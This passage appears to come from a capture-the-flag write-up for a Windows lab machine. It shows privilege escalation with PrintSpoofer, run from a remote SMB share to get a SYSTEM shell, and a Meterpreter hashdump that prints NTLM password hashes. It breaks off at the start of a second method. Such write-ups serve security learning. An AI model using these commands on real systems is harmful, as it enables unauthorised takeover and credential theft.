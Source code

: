 ### Method1: Potato Priv Esca

- SeImpersonatePrivilege
- windows server 2012, x64
- Exploit program: https://github.com/itm4n/PrintSpoofer

```console
c:\windows\system32\inetsrv>\\10.10.16.24\qwe\PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

c:\>dir /s /b user.txt 2>null
c:\Documents and Settings\Phineas\Desktop\user.txt
c:\Users\Phineas\Desktop\user.txt

c:\>dir /s /b root.txt 2>null
c:\Documents and Settings\Administrator\Desktop\root.txt
c:\Users\Administrator\Desktop\root.txt
```

- msf to dump hash

```console
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Phineas:1002:aad3b435b51404eeaad3b435b51404ee:8eacdd67b77749e65d3b3d5c110b0969:::
```

### Method2: hashdump from memdump

Find Oracle issue text file, download and check the content:

```console
c:\Users\Phineas\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 69B2-6341

 Directory of c:\Users\Phineas\Desktop

01/07/2018  02:03 PM    <DIR>          .
01/07/2018  02:03 PM    <DIR>          ..
01/05/2018  10:56 PM               300 Oracle issue.txt
02/19/2024  09:22 PM                34 user.txt
               2 File(s)            334 bytes
               2 Dir(s)   7,041,503,232 bytes free
```
